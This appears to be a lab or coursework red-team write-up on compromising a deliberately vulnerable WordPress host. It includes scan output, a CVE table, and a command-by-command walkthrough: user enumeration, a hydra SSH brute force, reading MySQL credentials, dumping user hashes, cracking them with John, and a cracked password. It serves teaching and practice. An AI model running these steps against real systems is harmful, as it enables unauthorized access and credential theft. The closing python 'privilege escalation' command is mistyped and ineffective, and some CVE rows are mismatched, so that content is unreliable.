# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -v 192.168.1.110 # Target 1
```



This scan identifies the services below as potential points of entry:

- Target 1
  | Service     | Port    | State | OS Version                                   |
  | ----------- | ------- | ----- | -------------------------------------------- |
  | SSH         | 22/TCP  | OPEN  | OpenSSH 6.7p1 Debian 5 deb8u4 (protocol 2.0) |
  | HTTP        | 80/TCP  | OPEN  | Apache httpd 2.4.10 ((Debian))               |
  | RPCBIND     | 111/TCP | OPEN  | 2-4 (RPC #100000)                            |
  | NETBIOS-SSN | 139/TCP | OPEN  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
  | NETBIOS-SSN | 445/TCP | OPEN  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

The following vulnerabilities were identified on each target:

- Target 1

  | Service     | OS Version                                    | Severity | CVE            | Vulnerabilities                                              |
  | ----------- | --------------------------------------------- | -------- | -------------- | ------------------------------------------------------------ |
  | SSH         | OpenSSH 6.7p1 Debian  5 deb8u4 (protocol 2.0) | 8        | CVE-2016-1908  | Privilege escalation  vulnerability                          |
  |             |                                               | 10       | CVE-2001-0554  | Buffer overflow in  BSD-based  telnetd telnet daemon         |
  |             |                                               | 8.5      | CVE-2015-5600  | Remote attackers to conduct brute-force attacks or  cause a denial of service  (CPU consumption) via a  long and duplicative  list in the ssh |
  |             |                                               | 7.5      | CVE-2020-16088 | iked in OpenIKED, as used in OpenBSD  through 6.7, allows authentication bypass because ca.c has the wrong logic for checking whether a public key matches. |
  |             |                                               | 5.0      | CVE-2018-15919 | Remote attackers to detect existence of users  on a target system |
  |             |                                               | 5.0      | CVE-2017-15906 | The process_open function  in sftp-server.c  in OpenSSH before 7.6 does  not properly prevent  write operations in readonly mode, which allows attackers to  create zero-length files. |
  | HTTP        | Apache httpd 2.4.10  ((Debian))               | 7.5      | CVE-2017-7679  | In Apache httpd 2.2.x before  2.2.33 and 2.4.x before 2.4.26,  mod_mime can read one byte past  the end of a buffer when sending  a malicious Content-Type  response header. |
  |             |                                               | 7.5      | CVE-2017-7668  | An attacker may be able to cause a segmentation fault, or to  force ap_find_token()  to return an incorrect value. |
  |             |                                               | 7.5      | CVE-2017-3169  | mod_ssl may dereference a  NULL pointer when third-party  modules call  ap_hook_process_connection()  during an HTTP request to an  HTTPS port. |
  |             |                                               | 7.5      | CVE-2017-3167  | use of the ap_get_basic_auth_pw() by third-party modules  outside of the authentication  phase may lead to  authentication requirements  being bypassed. |
  |             |                                               | 6.8      | CVE-2017-15715 | This could be exploited in  environments where uploads  of some files are are  externally blocked,  but only by matching  the trailing portion of  the filename. |
  |             |                                               | 6.8      | CVE-2018-1312  | In a cluster of servers using  a common Digest authentication  configuration, HTTP  requests could be replayed  across servers by an attacker  without detection. |
  |             |                                               | 6.8      | CVE-2017-15715 | This could be exploited  in environments where uploads  of some files are are externally  blocked, but only by  matching the trailing  portion of the filename. |
  | RPCBIND     | 2-4 (RPC #100000)                             |          | N/A            |                                                              |
  | NETBIOS-SSN | Samba smbd 3.X - 4.X  (workgroup: WORKGROUP)  |          | CVE-2007-2447  | **Remote Command Injection Vulnerability**: when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! |

### Resources:

```
root@Kali:/usr/share/nmap/scripts/vulscan/utilities/updater# nmap --script nmap-vulners -sV 192.168.1.110 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-19 07:50 PDT
Nmap scan report for 192.168.1.110
Host is up (0.0010s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5 deb8u4 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:6.7p1: 
|       EDB-ID:21018    10.0    https://vulners.com/exploitdb/EDB-ID:21018      *EXPLOIT*
|       CVE-2001-0554   10.0    https://vulners.com/cve/CVE-2001-0554
|       CVE-2015-5600   8.5     https://vulners.com/cve/CVE-2015-5600
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       CVE-2020-16088  7.5     https://vulners.com/cve/CVE-2020-16088
|       EDB-ID:41173    7.2     https://vulners.com/exploitdb/EDB-ID:41173      *EXPLOIT*
|       CVE-2015-6564   6.9     https://vulners.com/cve/CVE-2015-6564
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       SSV:90447       4.6     https://vulners.com/seebug/SSV:90447    *EXPLOIT*
|       EDB-ID:45233    4.6     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       EDB-ID:45210    4.6     https://vulners.com/exploitdb/EDB-ID:45210      *EXPLOIT*
|       EDB-ID:45001    4.6     https://vulners.com/exploitdb/EDB-ID:45001      *EXPLOIT*
|       EDB-ID:45000    4.6     https://vulners.com/exploitdb/EDB-ID:45000      *EXPLOIT*
|       EDB-ID:40963    4.6     https://vulners.com/exploitdb/EDB-ID:40963      *EXPLOIT*
|       EDB-ID:40962    4.6     https://vulners.com/exploitdb/EDB-ID:40962      *EXPLOIT*
|       CVE-2016-0778   4.6     https://vulners.com/cve/CVE-2016-0778
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/     4.3     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/*EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/  *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/  *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/  *EXPLOIT*
|       MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/   4.3     https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/    *EXPLOIT*
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2015-5352   4.3     https://vulners.com/cve/CVE-2015-5352
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2016-0777   4.0     https://vulners.com/cve/CVE-2016-0777
|_      CVE-2015-6563   1.9     https://vulners.com/cve/CVE-2015-6563
```








### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_

    - **Exploit Used**

      - Vulnerability Scanner

        - nmap, dirb, wp_scan

      - Brute Force Attach - Dictionary Attach

        - hydra

      - **Commands we used:**

        - `dirb http://192.168.1.110`
          - We found that there is a `wordpress` end point

        

        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
          - We discover two user names:
            - michael
            - steven

        

        - `hydra -l michael -P /usr/share/wordlist/rockyou.txt 192.168.1.110 -t 4 ssh`

        

        - `ssh michael@192.168.1.110`

          

        - `grep -i flag *.html`

        

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    
    - **Exploit Used**
      - Vulnerability Scanner
        - *nmap, dirb, wp_scan*
      - Brute Force Attach - Dictionary Attach
        - *hydra*
      - **Commands we used:**
        - After we got access to the machine using `michael` credential via ssh, we search for files with flag as substring using the following command:
          - `find / -iname *flag* 2>/dev/nul`
          - 
    
  - `flag3`: _afc01ab56b50591e7dccf93122770cd2_

    - **Exploit Used**

      - Vulnerability Scanner

        - *nmap, dirb, wp_scan*

      - Brute Force Attach - Dictionary Attach

        - *hydra*

      - **Commands we used:**

        - After we got access to the machine using `michael` credential via ssh, we search for config files to see if they have credentials for mysql and found the following:
          

        - We were able to connect to mysql using above credentials:
          
          
        - We were able to use the above MySQL database password to query the various tables to see if any of the content in those tables would include any flags.  We use the following command to extract the content of the `wp_posts` table:
        
          - `SELECT * FROM wp_posts INTO OUTFILE '/tmp/posts.txt'` and `grep` for  `flag` keyword:
        
            
  
  - `flag4.txt`: _715dea6c055b9fe3337544932f2941ce_
  
    - **Exploit Used**
  
      - Vulnerability Scanner
  
        - *nmap, dirb, wp_scan*
  
      - Brute Force Attach - Dictionary Attach
  
        - *hydra*
  
      - Privilege Escalation
  
        - *python*
  
      - **Commands we used:**

        - After we got access to the machine using `michael` credential via ssh, we search for config files to see if they have credentials for mysql and found the following:
          

        - We were able to use the above MySQL database password to query the `wp_users` table to obtain the hash for the users:
          
  
          

        - We constructed a file with the `hash` values of each user to prep the file for `John the Ripper password cracker`:
          
  
        - Ran the following `>john user.txt` to get the password for `steven`:
  
          - We obtained `pink84` for username `steven`
  
          

        - We logged in using `steven` credentials:
          
  
        - Using the following command to `Privilege Escalation` to get the root access:
  
          - `python -c 'import sys; pring "\n".join(sys.path)'`
  
